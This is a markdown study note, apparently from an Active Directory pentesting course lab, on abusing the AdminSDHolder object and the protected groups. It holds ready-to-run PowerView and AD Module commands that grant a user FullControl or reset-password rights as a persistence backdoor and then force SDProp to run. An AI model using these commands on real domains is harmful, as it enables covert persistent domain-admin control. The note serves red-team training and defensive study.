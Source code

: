 # ACL Attacks

## AdminSDHolder

### General

- Resides in the System container of a domain
- Used to control the permissions - using an ACL - for certain built-in privileged groups (called Protected Groups)
- Security Descriptor Propagator (SDPROP) runs every hour and compares the ACL of protected groups and members with the ACL of `AdminSDHolder`
- Any differences are overwritten on the object ACL
- Protected groups
  - Domain Admins
  - Enterprise Admins
  - Domain Controllers
  - Read-only Domain Controllers
  - Schema Admins
  - Administrators
  - Account Operators
  - Backup Operators
  - Server Operators
  - Print Operators
  - Replicator

#### Protected Groups Abuse (All of the below Can Log on Locally to DC)

| Group | Permissions |
| --- | --- |
| Account Operators | Cannot modify DA/EA/BA groups. Can modify nested group within these groups. |
| Backup Operators | Backup GPO, edit to add SID of controlled account to a privileged group and Restore |
| Server Operators | Run a command as system (using the disabled Browser service) |
| Print Operators | Copy `ntds.dit` backup, load device drivers |

### Exploitation

- With DA privileges (Full Control/Write permissions) on the `AdminSDHolder` object, it can be used as a backdoor/persistence mechanism by adding a user with Full Permissions (or other interesting permissions) to the `AdminSDHolder` object
- In 60 minutes (when `SDPROP` runs), the user will be added with Full Control to the AC of groups like Domain Admins without actually being a member of it

```powershell
# Add FullControl permission for a user to the AdminSDHolder using PowerView as DA
Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName student572 -Rights All -Verbose

# Using AD Module and Set-ADACL
Set-ADACL -DistinguishedName 'CN=AdminSDHolder,CN=System,DC=dollarcorp,DC=moneycorp,DC=local' -Principal student572 -Verbose

# Other interesting permissions (ResetPassword, WriteMembers) for a user to the AdminSDHolder
Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName student572 -Rights ResetPassword -Verbose
Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName student572 -Rights WriteMembers -Verbose

# Run SDProp manually using Invoke-SDPropagator.ps1 to apply permissions immediately
Invoke-SDPropagator -timeoutMinutes 1 -showProgress -Verbose
```
